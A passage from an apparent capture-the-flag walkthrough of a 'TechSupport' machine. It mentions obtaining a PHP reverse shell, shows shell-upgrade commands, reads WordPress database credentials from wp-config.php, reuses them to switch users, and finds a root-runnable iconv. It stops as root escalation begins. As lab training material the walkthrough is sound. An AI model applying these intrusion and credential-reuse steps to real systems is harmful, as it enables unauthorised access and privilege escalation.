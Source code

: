 ## First user
We are now able to execute code on the machine, lets get a reverse shell instead. I used the PHP PentestMonkey shell and a netcat listener.

Now that we have a connection, lets upgrade our shell so we don't run into any silly issues.

`Ctrl+Z`
```terminal
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
```terminal
stty raw -echo; fg

```
```terminal
export TERM=xterm
```
We know that there is a wordpress site on here, along with credentials most likely. Let's see if the wp-config.php page is visible.
```php
// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'wpdb' );

/** MySQL database username */
define( 'DB_USER', 'support' );

/** MySQL database password */
define( 'DB_PASSWORD', 'REDACTED' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
define( 'DB_CHARSET', 'utf8' );

/** The Database Collate type. Don't change this if in doubt. */
define( 'DB_COLLATE', '' );
```
## Second user
We are able to see the username and password used for mysql, let's see if they reused it for their machine password.
```terminal
www-data@TechSupport:/var/www/html/wordpress$ su scamsite
Password: 
scamsite@TechSupport:/var/www/html/wordpress$ 
```
That works! One step closer. Let's work on getting to that root account.
## Privilege Escalation
Let's list our sudo privileges for this user with:
```terminal
sudo -l
```
```terminal
User scamsite may run the following commands on TechSupport:
    (ALL) NOPASSWD: /usr/bin/iconv
```
We can run this command as root, let's see if GTFObins has an exploit for it.